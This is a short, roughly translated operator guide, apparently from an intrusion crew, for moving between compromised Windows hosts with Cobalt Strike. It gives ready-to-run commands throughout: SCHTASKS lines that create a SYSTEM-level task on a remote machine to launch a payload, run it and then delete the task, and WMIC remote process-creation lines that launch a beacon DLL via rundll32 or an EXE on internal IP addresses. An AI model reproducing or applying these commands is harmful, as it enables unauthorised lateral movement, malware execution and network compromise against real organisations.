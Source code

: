 # HOW-TO-JUMP-THROUGH-SESSIONS-WITH-PAYLOAD
Commands to run payload, to pull up the session in cobalt
1) shell SCHTASKS /s MS040926754153 /RU "SYSTEM" /create /tn "WindowsSensor15" /tr "cmd.exe /c C:\ProgramData\P32.exe" /sc ONCE /sd 01/01/1970 /st 00:00
2) shell SCHTASKS /s MS040926754153 /run /TN "WindowsSensor15"
3) shell schtasks /S MS040926754153 /TN "WindowsSensor15" /DELETE /F
instead of
MS040926754153
put in
still points
run through the commands one at a time
1) creating a ride with payload
2) turn on
3) deleting


Run VMICOM, we use it more often.
1) if it's a dll, then
shell wmic /node:192.168.104.13 process call create "rundll32.exe C:\ProgramData\x64.dll StartW"

Accordingly, where the IP address, we put the IP address of the machine we have access to, then comes the path and the name of our dll, I think the syntax is clear

If you are on RDP > open CMD as administrator and rundll32.exe C:\ProgramData\x64.dll,StartW you can define any path, according to where your dll is


For EXE or .bat format you can run VMICOM as follows

shell wmic /node:10.28.0.3 process call create "C:\ProgramData\j1.exe"



You can also load and run via metasploit, but we rarely use this tool now, because it is not working correctly in the latest version

CREDITS: Learners Room @dtob1804
